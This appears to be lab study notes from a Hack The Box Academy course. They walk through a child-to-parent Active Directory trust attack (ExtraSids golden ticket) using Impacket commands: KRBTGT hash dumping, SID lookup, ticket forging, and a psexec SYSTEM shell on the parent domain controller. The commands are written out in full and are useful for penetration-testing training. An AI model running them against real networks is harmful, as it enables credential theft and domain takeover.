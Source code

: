 
**I. Prerequisites**

To perform this attack, the following information is required:

- **KRBTGT hash** for the child domain.
- **SID** for the child domain.
- **Target user name** (can be non-existent).
- **FQDN** of the child domain.
- **SID of the Enterprise Admins group** of the root domain.

---

**II. Steps**

### 1. Obtain KRBTGT hash

Use `secretsdump.py` from Impacket.

**Command:**

```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

### 2. Obtain SID for child domain

Use `lookupsid.py` from Impacket.

**Commands:**

```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```

Filter to get only the Domain SID:

```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

### 3. Obtain SID for Enterprise Admins group

Use `lookupsid.py` targeting the parent domain's DC.

**Command:**

```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

### 4. Construct Golden Ticket

Use `ticketer.py` from Impacket.

**Command:**

```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

### 5. Set KRB5CCNAME environment variable

**Command:**

```bash
export KRB5CCNAME=hacker.ccache
```

### 6. Gain SYSTEM shell on parent domain DC

Use `psexec.py` from Impacket.

**Command:**

```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

### 7. Automate with raiseChild.py

**Command:**

```bash
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

---

**III. Important Considerations**

- `raiseChild.py` automates the process, but understanding the manual steps is crucial for troubleshooting.
- Using "autopwn" scripts in client environments requires caution.
- A thorough understanding of the underlying tools is paramount.
- Impacket is a powerful suite of tools that should be used responsibly.